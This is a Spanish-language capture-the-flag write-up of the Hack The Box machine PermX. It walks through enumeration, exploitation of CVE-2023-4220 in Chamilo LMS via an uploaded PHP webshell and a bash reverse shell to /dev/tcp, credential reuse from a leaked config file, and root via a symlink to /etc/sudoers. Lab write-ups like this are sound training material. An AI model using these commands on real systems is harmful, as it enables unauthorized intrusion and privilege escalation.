 ```yaml
---
title: PermX - Hack The Box
date: 2024-09-20
description: Maquina PermX (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/permx/
image: permx.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.10.11.23 -oG allPorts
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 10.10.11.23 -oN targeted

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

El puerto 80 da acceso a la web de http://permx.htb, sin nada destacable.

Whatweb tampoco añade mayor información:
```bash
whatweb http://permx.htb

http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
```

Enumerando con nmap se ven los siguientes directorios sin información relevante:
```bash
nmap --script http-enum -p80 10.10.11.23 -oN webScan
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|_  /lib/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
```

Enumerando subdominios con wfuzz se ven los siguientes subdominios, del cual se destaca lms:
```bash
wfuzz -c --hl=9 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"
000000477:   200        352 L    940 W      19347 Ch    "lms" 
```

## Explotación

http://lms.permx.htb es un LMS (Learning Management System) en Chamilo. Este LMS es vulnerable al [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) cuyo exploit está disponible en [GitHub](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS).

Este exploit se basa en subir una WebShell `'<?php echo system($_GET["cmd"])?>'` al directorio vulnerable `http://permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` para a continuación establecer una Reverse Shell haciendo uso de la WebShell alojada en el directorio `http://permx.htb/main/inc/lib/javascript/bigupload/files/` pasando por GET la Reverse Shell `'#!/bin/bash\nbash -i >& /dev/tcp/{host}/{port} 0>&1'`

De forma manual, sin usar Exploit, es posible explotar la vulnerabilidad creando un fichero para la WebShell en php:
```bash
echo '<?php echo system($_GET["cmd"]); ?>' > webshell_test.php
```

Subiendola al directorio vulnerable del LMS:
```bash
curl -F "bigUploadFile=@webshell_test.php;filename=webshell_test.php" http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
The file has successfully been uploaded. 
```

Y estableciendo la Reverse Shell a través de la WebShell:
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.23/443 0>&1"
```

Que, al hacer URL encode queda de la siguiente manera:
```bash
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell_test.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.15.23/443 0>%261"
```

Y se gana acceso al sistema como usuario www-data:
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
```

## Escalada

### User

Listando los ficheros con configuración en el directorio de Chamilo se puede ver un configuration.php:

```bash
find . -name \*conf\* 2>/dev/null

...
./app/config/configuration.php
...
```

Este fichero contiene los datos de conexión de la bbdd:
```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_user
$_configuration['db_user'] = 'chamilo';
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_password
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Listando los usuarios de /home/ se puede ver el usuario "mtz" no accesible desde www-data.

Verificando la reutilización de la contraseña de la bbdd por el usuario mtz, se comprueba que es accesible por ssh.

>Username: mtz   
>Password: 03F6lY3uXAP2bkW8   

Al conectarse se obtiene la User Flag.
```bash
ssh mtz@10.10.11.23
```

### Root

Listando los ficheros en los que el usuario mtz tiene permisos se obtiene el script "/opt/acl.sh":
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Este script usa "setfacl" para cambiar los permisos de cualquier fichero en /home/mtz:
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

El script no permite hacer Path Traversal ya que refleja la opción `"$target" == *..* ` pero no controla los enlaces simbólicos.

Creando un enlace simbólico del fichero /etc/sudoers en /home/mtz:
```bash
ln -s /etc/sudoers /home/mtz/test
```

Y aplicando el script sobre el enlace simbolico se dan permisos de lectura y escritura sobre /etc/sudoers:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/test
```

Lo que permite añadir el permiso de sudo al usuario mtz y convertirse en root:
```bash
vim /home/mtz/test
...
mtz     ALL=(ALL) ALL
...
```

Como root se tiene acceso a la Root Flag.
